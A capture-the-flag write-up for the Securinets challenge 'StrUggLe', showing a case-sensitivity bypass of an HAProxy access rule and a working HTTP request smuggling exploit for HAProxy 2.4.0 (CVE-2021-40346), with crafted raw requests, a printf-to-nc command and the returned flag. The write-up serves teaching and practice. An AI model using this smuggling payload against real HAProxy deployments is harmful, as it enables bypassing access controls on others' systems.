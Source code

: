 ```yaml
---
description: HAProxy HTTP Request Smuggling
---
```


# StrUggLe

> Welcome to Web! I struggle everyday I face a new website, can you access /flag endpoint ?\\
>
> Link: http://128.199.3.34:1235\\
>
> **Author:** Kahla

### Unintended Solution

The HAProxy configuration to protect the `/flag` endpoint was case sensitive. Therefore, the following would be sufficient to bypass the validation.

```http
GET /FLAG HTTP/1.1
Host: 128.199.3.34:1235

```

```http
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 43
etag: W/"2b-aWQ+/21qg4d1e3yOxiZcpTrSBxw"
date: Fri, 13 May 2022 09:34:06 GMT
x-server: HaProxy-2.4.0

Securinets{W3lC0me_T0_FinAlS_4nD_SmUUgLinG}
```

### Intended Solution

From the server response headers, we know that HAProxy version 2.4.0 is used in front of an Express application. This version is vulnerable to a [HTTP request smuggling vulnerability](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/).

Basically, an integer overflow leads to `Content-Length0aaa...aaa:` being forwarded to the backend as `Content-Length: 0`, while a second duplicate `Content-Length` header is used by HAProxy to determine the length of the request body.

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 26

GET /flag HTTP/1.1
DUMMY:GET / HTTP/1.1
Host: 128.199.3.34:1235

```

In the above example, HAProxy considers the following to be the first request:

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length: 26

GET /flag HTTP/1.1
DUMMY:
```

while the second request is the following:

```http
GET / HTTP/1.1
Host: 128.199.3.34:1235

```

However, when forwarded to the backend, this becomes:

```http
POST /test HTTP/1.1
Host: 128.199.3.34:1235
Content-Length: 0

GET /flag HTTP/1.1
DUMMY:GET / HTTP/1.1
Host: 128.199.3.34:1235

```

Therefore, the response for the second request will correspond to `/flag` instead of `/`.

Due to the way the pipelining works, we have to add some artificial delays when sending the consecutive requests.

```bash
$ (printf "POST / HTTP/1.1\r\n"\
"Host: 128.199.3.34:1235\r\n"\
"Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\n"\
"Content-Length: 26\r\n\r\n"; sleep 1;
printf "GET /flag HTTP/1.1\r\n"\
"DUMMY:"; sleep 1; printf "GET /test HTTP/1.1\r\n"\
"Host: 128.199.3.34:1235\r\n\r\n") | nc 128.199.3.34 1235
```

```http
HTTP/1.1 404 Not Found
x-powered-by: Express
content-security-policy: default-src 'none'
x-content-type-options: nosniff
content-type: text/html; charset=utf-8
content-length: 140
date: Fri, 13 May 2022 09:41:24 GMT
x-server: HaProxy-2.4.0

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot POST /</pre>
</body>
</html>
HTTP/1.1 200 OK
x-powered-by: Express
content-type: text/html; charset=utf-8
content-length: 43
etag: W/"2b-aWQ+/21qg4d1e3yOxiZcpTrSBxw"
date: Fri, 13 May 2022 09:41:26 GMT
x-server: HaProxy-2.4.0

Securinets{W3lC0me_T0_FinAlS_4nD_SmUUgLinG}
```
